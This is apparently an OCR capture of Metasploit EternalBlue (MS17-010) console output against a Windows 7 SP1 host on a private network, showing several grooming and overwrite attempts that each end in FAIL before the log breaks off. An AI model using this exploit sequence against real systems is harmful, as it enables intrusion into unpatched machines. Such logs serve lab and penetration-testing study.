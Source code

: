 ```bash
[+] 10.201.35.94:445 - Connection established for exploitation.
[+] 10.201.35.94:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.35.94:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.35.94:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.201.35.94:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.201.35.94:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.201.35.94:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.35.94:445 - Trying exploit with 12 Groom Allocations.
[*] 10.201.35.94:445 - Sending all but last fragment of exploit packet
[*] 10.201.35.94:445 - Starting non-paged pool grooming
[+] 10.201.35.94:445 - Sending SMBv2 buffers
[+] 10.201.35.94:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.35.94:445 - Sending final SMBv2 buffers.
[*] 10.201.35.94:445 - Sending last fragment of exploit packet!
[*] 10.201.35.94:445 - Receiving response from exploit packet
[+] 10.201.35.94:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.35.94:445 - Sending egg to corrupted connection.
[*] 10.201.35.94:445 - Triggering free of corrupted buffer.
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.201.35.94:445 - Connecting to target for exploitation.
[+] 10.201.35.94:445 - Connection established for exploitation.
[+] 10.201.35.94:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.35.94:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.35.94:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.201.35.94:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.201.35.94:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.201.35.94:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.35.94:445 - Trying exploit with 17 Groom Allocations.
[*] 10.201.35.94:445 - Sending all but last fragment of exploit packet
[*] 10.201.35.94:445 - Starting non-paged pool grooming
[+] 10.201.35.94:445 - Sending SMBv2 buffers
[+] 10.201.35.94:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.35.94:445 - Sending final SMBv2 buffers.
[*] 10.201.35.94:445 - Sending last fragment of exploit packet!
[*] 10.201.35.94:445 - Receiving response from exploit packet
[+] 10.201.35.94:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.35.94:445 - Sending egg to corrupted connection.
[*] 10.201.35.94:445 - Triggering free of corrupted buffer.
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.201.35.94:445 - Connecting to target for exploitation.
[+] 10.201.35.94:445 - Connection established for exploitation.
[+] 10.201.35.94:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.35.94:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.35.94:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.201.35.94:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.201.35.94:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.201.35.94:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.35.94:445 - Trying exploit with 22 Groom Allocations.
[*] 10.201.35.94:445 - Sending all but last fragment of exploit packet
[*] 10.201.35.94:445 - Starting non-paged pool grooming
```